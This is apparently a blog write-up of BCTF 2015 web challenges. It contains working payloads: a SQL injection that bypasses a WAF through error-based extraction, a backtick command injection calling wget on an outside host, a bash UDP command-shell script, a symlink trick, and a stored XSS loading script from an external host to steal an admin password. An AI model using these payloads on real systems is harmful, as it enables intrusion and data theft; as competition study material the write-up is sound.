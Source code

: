 ```yaml
---
layout: post
title: BCTF 2015 WEB Writeup
---
```


#### Checkin 10

Desc: Please checkin at IRC

- IRC: [http://webchat.freenode.net/](http://webchat.freenode.net/)
- Channels: bctf

Bulletin board:
    
    [BCTF 2015 has started. Check in flag: OPGS{jr1p0zr-g0-OPGS-2015_t00q-yhpx}. 

Rot13 decode:

    OPGS{jr1p0zr-g0-OPGS-2015_t00q-yhpx} <--> BCTF{we1c0me-t0-BCTF-2015_g00d-luck}

-----------   
 
#### Sqli_engineScore 200

![http://ww2.sinaimg.cn/large/c334041bgw1eqehdrsxq4j20j40cndgr.jpg](http://ww2.sinaimg.cn/large/c334041bgw1eqehdrsxq4j20j40cndgr.jpg)

Desc: 

> http://104.197.7.111:8080/
> 
> geohot told me he has a lot of sql injection tricks. So I wrote a sql injection detection engine in defense.
> 
> Now you have a simple website protected by my engine, try to steal the admin’s password(not hash).

Username, Password ::: SQLi

      <form id="submit-form" class="form-group" action="/register" method="POST">
        <input type="text" placeholder="username" class="form-control" name="username"/>
        <input type="password" placeholder="password" class="form-control" name="password"/>
        <span class="input-icon fui-check-inverted"></span>
        <br />
        <div class="row">
          <div class="col-xs-3"> <button type="submit" class="btn btn-block btn-lg btn-primary">Register</button> </div>
          Already registered?<a href="/static/login.html">Click Here to Login</a>
        </div>
        <br />
      </form>
      
SQL Injection:

    URL: http://104.197.7.111:8080/register
    POST: username=admin&password=,'

    error executing sql: insert into users (username, password) values ('admin', ','')

    (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '','')' at line 1")

Continue:

    username=admin\&password=,updatexml(1,(select password from users limit 1),1) or '

    password contains SQL injection, IP recorded.
    
Bypass WAF:

    username=admin\&password=,updatexml(1,(/*/*/select password from/*/*/users limit/*/*/1),1) or/*/*/'

    (1105, "XPATH syntax error: '{h0w-d1d-y0u-fee1-l1ke-th3-sql1-'")
    
Substring right:

    username=admin\&password=,updatexml(1,(/*/*/select right(password,33)/*/*/from/*/*/users limit/*/*/1),1) or/*/*/'

    (1105, "XPATH syntax error: 'd-y0u-fee1-l1ke-th3-sql1-eng1ne}'")
    
String concatenation (FLAG):

	{h0w-d1d-y0u-fee1-l1ke-th3-sql1-eng1ne}
	
-------------

#### Torrent_loverScore 233

Desc: A dog loves torrent.

![http://ww1.sinaimg.cn/large/c334041bgw1eqegar7st4j20ac03sdfz.jpg](http://ww1.sinaimg.cn/large/c334041bgw1eqegar7st4j20ac03sdfz.jpg)

![http://ww3.sinaimg.cn/large/c334041bgw1eqegb9eahij20a502gq2y.jpg](http://ww3.sinaimg.cn/large/c334041bgw1eqegb9eahij20a502gq2y.jpg)

http://218.2.197.253/zhongzi/index.php:

![http://ww3.sinaimg.cn/large/c334041bgw1eqegc3043aj20ex0b13zl.jpg](http://ww3.sinaimg.cn/large/c334041bgw1eqegc3043aj20ex0b13zl.jpg)

We guess, Maybe the command execution, The program calls the system function? Because we have no other way. :-(

Testing:

    http://www.google.com/`wget worm.cc:8000`/1.torrent
    http://www.google.com/`wget${IFS}worm.cc:8000`/1.torrent

We have received req (404):

    root@e:/rootkit# python -m SimpleHTTPServer
    Serving HTTP on 0.0.0.0 port 8000 ...
    118.186.202.142 - - [22/Mar/2015 13:44:39] "GET / HTTP/1.1" 200 -
    118.186.202.142 - - [22/Mar/2015 13:44:41] code 404, message File not found

ubd.sh:

    #!/bin/bash

    exec 9<> /dev/udp/localhost/8088
    [ $? -eq 1 ] && exit
    echo "connect ok" >&9

    while :
    do
      a=`dd bs=200 count=1 <&9 2>/dev/null`
      if echo "$a"|grep "exit"; then break; fi
      echo `$a` >&9
    done

    exec 9>&-
    exec 9<&-
    
nc -lu 8088

![http://ww3.sinaimg.cn/large/c334041bgw1eqegkzopavj20s9083acl.jpg](http://ww3.sinaimg.cn/large/c334041bgw1eqegkzopavj20s9083acl.jpg)

find use_me_to_read_flag and flag:

    /var/www/flag/use_me_to_read_flag /var/www/flag/flag
    >_ Permission denied
    
IDA, see _strstr "flag":

![http://ww2.sinaimg.cn/large/c334041bgw1eqeguifv68j20vw0br76y.jpg](http://ww2.sinaimg.cn/large/c334041bgw1eqeguifv68j20vw0br76y.jpg)

Cat FLAG:

    ln -s /var/www/flag/flag /tmp/warning
    /var/www/flag/use_me_to_read_flag /tmp/warning
    
![http://ww1.sinaimg.cn/large/c334041bgw1eqegx2zctxj20fm03zjro.jpg](http://ww1.sinaimg.cn/large/c334041bgw1eqegx2zctxj20fm03zjro.jpg)

-------------

#### Webchat 325

Desc: http://146.148.60.107:9991/

![http://ww2.sinaimg.cn/large/c334041bgw1eqeh1ri1hwj20ka0co3zm.jpg](http://ww2.sinaimg.cn/large/c334041bgw1eqeh1ri1hwj20ka0co3zm.jpg)

Websocket XSS? SQL Injection?

View-source:

    <script>
        $(document).ready(
        function() {
            function connect() {
                $("#status").text("Connecting");
                $("#status").attr("class", "text-primary");
                var ws = new window.WebSocket('ws://' + location.host + '/ws');
                ws.onopen = function() { $("#status").attr('class', 'text-success').text('Connected'); 
                    $("#submit_btn").attr('disabled', false).click(function() {
                        $("#sendstatus").attr('class', 'text-primary').text('Sending...');
                        ws.send($("#i_nick").val() + ": " + $("#i_msg").val());
                    });
                }
                ws.onclose = function() { $("#status").attr('class', 'text-danger').text('Disconnected'); setTimeout(connect, 5000);}
                ws.onerror = function() { $("#status").attr('class', 'text-danger').text('Failed to connect.'); }
                ws.onmessage = function(datad) {
                    var data = datad.data;
                    if (data[0] == 'm') $("#msg").html(data.substr(1) + "<br/>" +  $("#msg").html());
                    if (data[0] == 's') { $("#i_msg").val(''); $("#sendstatus").attr('class', 'text-success').text('Message Sent');}
                    if (data[0] == 'e') { $("#i_msg").val(''); $("#sendstatus").attr('class', 'text-danger').text('Message Rejected');}
                }
            }
            connect();
        });
    </script>
    
- http://ironwasp.org/cswsh.html
- ws://146.148.60.107:9991/ws

![http://ww1.sinaimg.cn/large/c334041bgw1eqeh4j4q9ej20qu0dmmy6.jpg](http://ww1.sinaimg.cn/large/c334041bgw1eqeh4j4q9ej20qu0dmmy6.jpg)    mysql> select hex('<script src=http://xss.net/0TLs5n?1426923466></script>');
    +--------------------------------------------------------------+
    | hex('<script src=http://xss.net/0TLs5n?1426923466></script>')                                                         	|
    +--------------------------------------------------------------+
    | 	
	3C73637269707***********3D687474703A2F2F7873732E6861636B7461736B2E6E65742F30544C73356E3F
    |
	+--------------------------------------------------------------+    test: '),(0x3C73637269707***********3D687474703A2F2F7873732E6861636B7461736B2E6E65742F30544C73356E3F),('

![http://ww2.sinaimg.cn/large/c334041bgw1eqehatp9ujj209106t3yz.jpg](http://ww2.sinaimg.cn/large/c334041bgw1eqehatp9ujj209106t3yz.jpg)

[http://146.148.60.107:9991/review?pass=QkNURnt4c3NfaXNfbm90X3RoYXRfZGlmZmljdWx0X3JpZ2h0fQ==&id=24](http://146.148.60.107:9991/review?pass=QkNURnt4c3NfaXNfbm90X3RoYXRfZGlmZmljdWx0X3JpZ2h0fQ==&id=24)

Page Content: Only admin in local network with correct password can review chat logs. But you've already had the flag you want,right?

    ➜  ~  echo -n "QkNURnt4c3NfaXNfbm90X3RoYXRfZGlmZmljdWx0X3JpZ2h0fQ==" | base64 -D
    BCTF{xss_is_not_that_difficult_right}